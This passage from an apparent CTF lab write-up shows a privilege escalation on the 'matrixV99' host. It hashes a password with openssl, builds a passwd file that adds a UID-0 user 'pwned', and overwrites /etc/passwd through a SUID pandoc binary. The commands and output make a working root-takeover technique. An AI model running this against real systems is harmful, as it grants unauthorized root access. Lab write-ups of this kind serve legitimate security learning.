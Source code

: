 - Generate a passwd password hash:

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied/BlackCat-attachments/DevTools)-[2023.01.27|06:51:08(UTC)]
└> openssl passwd password
$1$p8wH6NOk$1GHNwFm6Zyt5.5Rlfn6Qf.
```

- Create a new `passwd` file, and add a new root privilege user:

```shell
architect@matrixV99:~$ nano /tmp/passwd_mod
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
architect:x:1000:1000:architect:/home/architect:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
ntp:x:112:115::/nonexistent:/usr/sbin/nologin
pwned:\$1\$p8wH6NOk\$1GHNwFm6Zyt5.5Rlfn6Qf.:0:0:pwned:/root:/bin/bash
```

- Override the `/etc/passwd` via SUID `pandoc` binary:

```shell
architect@matrixV99:~$ cat /tmp/passwd_mod | /usr/bin/pandoc -t plain -o /etc/passwd

architect@matrixV99:~$ tail -n 1 /etc/passwd
pwned:$1$p8wH6NOk$1GHNwFm6Zyt5.5Rlfn6Qf.:0:0:pwned:/root:/bin/bash
```

